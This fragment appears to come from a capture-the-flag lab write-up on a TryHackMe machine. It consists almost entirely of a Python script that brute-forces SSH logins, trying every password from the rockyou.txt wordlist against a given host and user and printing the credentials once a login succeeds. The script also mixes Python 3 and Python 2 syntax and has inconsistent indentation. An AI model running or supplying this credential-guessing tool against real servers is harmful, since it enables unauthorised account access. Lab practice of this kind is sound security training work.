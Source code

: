   ```python
#!/usr/bin/python3

from pexpect import pxssh
from pwn import *
import signal
import sys

def def_handler(sig, frame):
    print "\n[!] Exit..."
    sys.exit(1)

#CTRL C
signal.signal(signal.SIGINT, def_handler)


def conectar(User,Pass):
	try:
	        conectar=pxssh.pxssh()
	        conectar.login(host,User,Pass)
	        print "User and Password Correct"
	        print "[*]User: {}".format(User) + "[*]Password: {}".format(Pass)
	        print "***ACCESS PERMITTED***"

	        return True

	except:
	        return False



if __name__ == '__main__':

    host=raw_input("HOST: ")
    User=raw_input("Ingresa el user: ")

    passw=open('rockyou.txt', 'r')
    Pass=passw.read().split("\n")

    p1 = log.progress("Fuerza Bruta ssh")
    p1.status("Iniciando Fuerza bruta...")
    time.sleep(3)

    i = 0
    while not conectar(User,Pass[i]):
    	p1.status("Probando password %s" % Pass[i].strip('\n'))
        i += 1

  ```
  <p align="center">
  <img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/THM/UbaketPie/intrusion/script2.png?raw=true">
  </p>
